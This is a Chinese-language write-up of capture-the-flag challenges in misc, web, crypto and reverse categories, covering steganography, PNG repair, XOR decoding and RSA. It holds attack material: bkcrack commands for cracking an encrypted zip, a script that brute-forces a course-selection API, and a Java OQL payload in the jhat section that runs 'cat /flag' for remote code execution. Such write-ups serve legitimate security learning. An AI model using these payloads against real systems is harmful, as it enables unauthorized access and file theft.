- > 古代掌管混分的神
- # misc signin
	- ffmpeg将高度压缩到原来的1/10
	- 
	- `hgame{WOW_GREAT_YOU_SEE_IT_WONDERFUL}`
- # misc simple_attack
	- 用[bkcrack](https://github.com/kimci86/bkcrack)打zip明文攻击
	- zip明文攻击需要已知目标压缩包中某个文件的内容，这个文件放在另一个未加密压缩包中
	- 本来试着重新压缩给出的已知图片，但是一直不成功，看到`src.zip`也是一个zip文件，所以就直接用src.zip里面的已知图片破解：
		- ```shell
		  # 拿到key
		  bkcrack -C attachment.zip -c 103223779_p0.jpg -P src.zip -p 103223779_p0.jpg
		  # 重新加密压缩包
		  bkcrack -C attachment.zip -k e423add9 375dcd1c 1bce583e -U unlocked.zip 123
		  # 解压缩，新的密码是123
		  UNZIP_DISABLE_ZIPBOMB_DETECTION=TRUE unzip unlocked.zip
		  ```
	- 然后里面是一个base64编码的图片
		- 
- # misc 希儿希儿希尔
	- 希尔加密，`binwalk`扫描图片发现一段隐写的密文：`CVOCRJGMKLDJGBQIUIVXHEYLPNWR`
	- 读取当前图片的crc并据此获得高度和宽度
		- ```python
		  import os
		  import binascii
		  import struct
		  from Crypto.Util.number import bytes_to_long
		  
		  def get_ihdr_crc(file_path):
		      # 读取PNG文件内容
		      with open(file_path, 'rb') as f:
		          data = f.read()
		  
		      # 定位到IHDR块的位置
		      ihdr_start = data.find(b'IHDR')
		      if ihdr_start == -1:
		          return "无效的PNG文件格式！"
		  
		      # 替换IHDR数据块中的CRC32值
		      crc_pos = ihdr_start + 17
		      return data[crc_pos:crc_pos+4]
		  
		  crcbp = open("secret.png", "rb").read()    #打开图片
		  crc = get_ihdr_crc("secret.png")
		  for i in range(2000):
		      for j in range(2000):
		          data = crcbp[12:16] + \
		              struct.pack('>i', i)+struct.pack('>i', j)+crcbp[24:29]
		          crc32 = binascii.crc32(data) & 0xffffffff
		          if(crc32 == bytes_to_long(crc)):    #图片当前CRC
		              print(i, j)
		              print('hex:', hex(i), hex(j))
		  ```
	- 根据高度和宽度修复图片
		- ```python
		  import zlib
		  
		  def fix_dimensions(image_path, new_width, new_height):
		      # 读取PNG文件的字节数据
		      with open(image_path, 'rb') as file:
		          data = bytearray(file.read())
		  
		      # 将新的宽度和高度值转换为4字节（32位）无符号整数
		      new_width_bytes = new_width.to_bytes(4, 'big')
		      new_height_bytes = new_height.to_bytes(4, 'big')
		  
		      # 找到存储宽度和高度的字节位置
		      width_offset = 16
		      height_offset = 20
		      # 替换字节数据中的宽度和高度值
		      data[width_offset:width_offset+4] = new_width_bytes
		      data[height_offset:height_offset+4] = new_height_bytes
		  
		      # 将修改后的字节数据写入新文件
		      fixed_image_path = 'modified.png'
		      with open(fixed_image_path, 'wb') as file:
		          file.write(data)
		  
		      return fixed_image_path
		  
		  # 调用修复函数
		  
		  fix_dimensions("secret.png", 1394, 1999)
		  
		  ```
		- {:height 935, :width 467}
	- 然后zsteg,启动！
		- 
		- 
- # web ezHTTP
	- 简单的HTTP header题目，参考 [[CTF/HTML&HTTP]]
- # web select cource
	- 直接写一个脚本，在列表中填上课程号爆破即可
		- ```python
		  url = "http://47.100.137.175:31143/api/courses"
		  
		  for i in tqdm(range(1000)):
		      for class_id in [1,2,3,4,5]:  # 在这里去掉已经选上的课程
		          r = base_post(url, json={"id": class_id})
		          data = r.json()
		          if data.get("error") or data.get("full"):
		              continue
		          print(data)
		  ```
- # web Bypass it
	- 打开题目，发现注册页面`register_page.php`打不开，但是登陆界面`login_page.php`和登陆接口`login.php`还在
	- 盲猜注册接口`register.php`还在，直接按着登陆的接口构造payload注册即可
- # web 2048x16
	- 首先把整个网站扒下来：`wget -r http://xxx`
	- 然后看到里面的JS源码，格式化之后翻看所有字符串，可以找到这个地方
		- 
		- 盲猜是加密后的flag, 前面的两个函数是解密相关的函数
	- 跟踪s0，发现是一个全局函数
		- 
	- 跟踪n，发现是函数h重命名，再跟踪h，发现是函数F重命名，F是一个全局函数
		- 
		- 
		- 
	- 所以在index.js后面加上这么一句话即可看到flag（当然是在扒下来的网站文件里改）
		- 
		- 
- # web jhat
	- jhat支持执行OQL
	- 使用OQL实现RCE，OQL仅支持执行表达式，这里根据提示构造了一个Process并配合InputStream和BufferedReader获取命令执行结果的第一行
		- ```java
		  new java.io.BufferedReader(
		    new java.io.InputStreamReader(
		      java.lang.Runtime.getRuntime().exec(
		        'cat /flag'
		      ).getInputStream()
		    )
		  ).readLine();
		  ```
	- 结果如下
		- 
- # crypto ezRSA
	- 问了ChatGPT
		- 当然可以喵！以下是解题脚本，其中使用了RSA的解密函数inverse()来求得解密指数d并解密密文c得到明文m，然后再转换成bytes类型。
		- ```python
		  from Crypto.Util.number import inverse, long_to_bytes
		  
		  p = 149127170073611271968182576751290331559018441805725310426095412837589227670757540743929865853650399839102838431507200744724939659463200158012469676979987696419050900842798225665861812331113632892438742724202916416060266581590169063867688299288985734104127632232175657352697898383441323477450658179727728908669
		  q = 116122992714670915381309916967490436489020001172880644167179915467021794892927977272080596641785569119134259037522388335198043152206150259103485574558816424740204736215551933482583941959994625356581201054534529395781744338631021423703171146456663432955843598548122593308782245220792018716508538497402576709461
		  n = p * q
		  phi = (p - 1) * (q - 1)
		  e = 0x10001
		  c = 10529481867532520034258056773864074017027019578041866245400647840230251661652999709715919620810933437191661180003295923273655675729588558899592524235622728816065501918076120812236580344991140980991532347991252705288633014913479970610056845543523591324177567061948922552275235486615514913932125436543991642607028689762693617305246716492783116813070355512606971626645594961850567586340389705821314842096465631886812281289843132258131809773797777049358789182212570606252509790830994263132020094153646296793522975632191912463919898988349282284972919932761952603379733234575351624039162440021940592552768579639977713099971
		  
		  leak1 = 149127170073611271968182576751290331559018441805725310426095412837589227670757540743929865853650399839102838431507200744724939659463200158012469676979987696419050900842798225665861812331113632892438742724202916416060266581590169063867688299288985734104127632232175657352697898383441323477450658179727728908669
		  leak2 = 116122992714670915381309916967490436489020001172880644167179915467021794892927977272080596641785569119134259037522388335198043152206150259103485574558816424740204736215551933482583941959994625356581201054534529395781744338631021423703171146456663432955843598548122593308782245220792018716508538497402576709461
		  
		  d = inverse(e, phi)
		  m = pow(c, d, n)
		  flag = long_to_bytes(m).decode()
		  
		  print(flag)
		  ```
		- 运行此脚本，即可得到解密后的flag。希望能帮到你喵～
- # crypto ezMath
	- 问问ChatGPT可以算出x和y的值
		- 
	- 然后照着写解密脚本
		- 
- # reverse ezIDA
	- 直接用IDA打开就看到了
	- 
- # reverse ezASM
	- 盲猜一波flag是最上面的数组异或0x22
	- 
	- 
- # reverse ezUPX
	- 首先`upx -d`脱壳，然后IDA打开看逻辑，发现还是异或。。。
		- 
		- 
	- 对着解密就好了
		- ```python
		  s = """
		  64h, 7Bh, 76h, 73h, 60h, 49h, 65h, 5Dh, 45h, 13h, 6Bh
		  .rdata:00000001400022A0                                         ; DATA XREF: main+36↑o
		  .rdata:00000001400022AB                 db 2, 47h, 6Dh, 59h, 5Ch, 2, 45h, 6Dh, 6, 6Dh, 5Eh, 3
		  .rdata:00000001400022B7                 db 2 dup(46h), 5Eh, 1, 6Dh, 2, 54h, 6Dh, 67h, 62h, 6Ah
		  .rdata:00000001400022C2                 db 13h, 4Fh, 32h, 0Bh dup(0)
		  """
		  # ...
		  a = bytes([
		      0x64, 0x7B, 0x76, 0x73, 0x60, 0x49, 0x65, 0x5D, 0x45, 0x13, 0x6B, 
		      2, 0x47, 0x6D, 0x59, 0x5C, 2, 0x45, 0x6d, 6, 0x6d, 0x5e, 3,
		      0x46, 0x46, 0x5e, 1, 0x6d, 2, 0x54, 0x6d,0x67, 0x62, 0x6a,
		      0x13, 0x4f, 0x32, ])
		  print(bytes(x ^ 0x32 for x in a))
		  
		  ```
- # reverse ezPYC
	- 首先用[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)反编译ezPYC.exe，得到一个文件夹
		- 
	- 然后把其中的`ezPYC.pyc`传到这个网站： https://tool.lu/pyc
		- 
	- 虽然解密失败了但是问题不大，盲猜是flag和c按位异或，写脚本
		- 
- # pwn ezSignIn
	- nc连接上就可以了